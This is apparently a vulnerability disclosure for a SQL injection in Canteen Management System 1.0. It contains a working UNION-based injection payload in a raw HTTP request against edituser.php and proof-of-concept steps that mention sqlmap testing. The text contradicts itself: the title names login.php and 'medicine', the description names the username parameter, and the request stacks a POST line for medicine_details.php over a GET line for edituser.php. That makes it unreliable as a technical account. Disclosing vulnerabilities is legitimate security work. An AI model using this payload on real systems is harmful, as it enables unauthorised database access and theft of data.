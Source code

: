 # Canteen Management System - login.php 'medicine' SQL inject

#### Exploit Title: Canteen Management System - login.php 'medicine' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

#### Software Link:https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

#### Version: Canteen Management System 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Canteen Management System does not filter the content correctly at the "login.php /username" parameter, resulting in the generation of SQL injection.

#### Payload used:

```POST /medicine_details.php HTTP/1.1
GET /edituser.php?id=-7956'%20UNION%20ALL%20SELECT%20NULL,md5(1),NULL,NULL--+ HTTP/1.1
Host: 192.168.67.10:8091
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.67.10:8091
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.67.10:8091/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

#### Proof of Concept

1、After logging in, use the Edit User function

![edituserhtml](D:\cves\youthappam\images\edituserhtml.png)

2、Looking at the source code, it is found that the id field is directly brought into the SQL statement query without filtering

![](D:\cves\youthappam\images\editusersouce.png)



3、

![](D:\cves\youthappam\images\edituserburp.png)

4、The results can be directly echoed on the page by constructing correct SQL statements

![edituserresult](D:\cves\youthappam\images\edituserresult.png)

5、Through testing with the tool, it is found that there are other injection methods such as blind SQL time injection.

![usernamesqlmap](D:\cves\youthappam\images\editusersqlmap.png)

